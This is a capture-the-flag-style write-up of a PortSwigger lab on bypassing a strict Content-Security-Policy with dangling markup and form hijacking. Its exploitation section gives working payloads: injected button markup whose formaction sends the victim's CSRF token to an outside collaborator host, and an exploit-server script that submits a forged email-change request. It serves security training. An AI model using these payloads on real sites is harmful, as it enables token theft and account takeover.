

# Reflected XSS protected by very strict CSP, with dangling markup attack
# Objective
This lab uses a strict CSP that prevents the browser from loading subresources from external domains.

To solve the lab, perform a form hijacking attack that bypasses the CSP, exfiltrates the simulated victim user's CSRF token, and uses it to authorize changing the email to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:
```
<a href="">Click me</a>
```

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The website has change email functionality that requires CSRF token. In the request `/my-account?id=wiener` extra parameter can be used - `email`. If its specified in reuqest it allows to prefill email field.

||
|:--:| 
| *Change email functionality - requires CSRF token* |
||
| *CSP Evaluator results* |
||
| *Test payload via extra parameter* |

```
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

## Exploitation
### CSP Bypass by dangling markup - OLD
CSP policy blocks browser from dispatching HTTP request provided in `src` in `img` tag.

||
|:--:| 
| *Test payload with img tag* |


Using the following payload, attacker can create link to arbitrary page:
```
"><a href="https://example.com">Click me</a><base target="TEST"
```
||
|:--:| 
| *Test payload with link and * |
||
| *Clicking the link - base tag * |

Using the `target` attribute on the `base` tag attacker can change the `window.name` of every link on the page. Using the previous payload without closed `"` results in part of the source code to be sent to arbitrary page - DID NOT WORKED ...
```
"><a href="https://example.com">Click me</a><base target="TEST
```
||
|:--:| 
| *Test payload with link and * |
||
| *Clicking the link - base tag * |

### CSRF token hijacking
CSP is missing `form-action` directive. Using the following payload attacker can bypass present CSP. Using `formmethod="get"` allows to send data, including CSRF token, as request parameters and not in the POST request body.

```
/my-account?id=wiener&email=foo@bar"><button formaction="https://<id>.oastify.com/exploit" formmethod="get">Click me</button>
```

||
|:--:| 
| *Payload* |
||
| *Payload in rendered page* |
||
| *Test exfiltration of CSRF token* |

Test exploit server configuration:
```
<script>window.location='https://<id>.web-security-academy.net/my-account?email=foo@bar"><button formaction="https://<id>.oastify.com/exploit" formmethod="get">Click me</button>'</script>
```
||
|:--:| 
| *Test exploit server configuration* |
||
| *Request send by victim* |

||
|:--:| 
| *Final exploit server configuration* |

Final exploit server configuration:
```html
<body>
<script>
// Define the URLs for the lab environment and the exploit server.
const academyFrontend = "https://your-lab-url.net/";
const exploitServer = "https://your-exploit-server.net/exploit";

// Extract the CSRF token from the URL.
const url = new URL(location);
const csrf = url.searchParams.get('csrf');

// Check if a CSRF token was found in the URL.
if (csrf) {
    // If a CSRF token is present, create dynamic form elements to perform the attack.
    const form = document.createElement('form');
    const email = document.createElement('input');
    const token = document.createElement('input');

    // Set the name and value of the CSRF token input to utilize the extracted token for bypassing security measures.
    token.name = 'csrf';
    token.value = csrf;

    // Configure the new email address intended to replace the user's current email.
    email.name = 'email';
    email.value = 'hacker@evil-user.net';

    // Set the form attributes, append the form to the document, and configure it to automatically submit.
    form.method = 'post';
    form.action = `${academyFrontend}my-account/change-email`;
    form.append(email);
    form.append(token);
    document.documentElement.append(form);
    form.submit();

    // If no CSRF token is present, redirect the browser to a crafted URL that embeds a clickable button designed to expose or generate a CSRF token by making the user trigger a GET request
} else {
    location = `${academyFrontend}my-account?email=blah@blah%22%3E%3Cbutton+class=button%20formaction=${exploitServer}%20formmethod=get%20type=submit%3EClick%20me%3C/button%3E`;
}
</script>
</body>
```

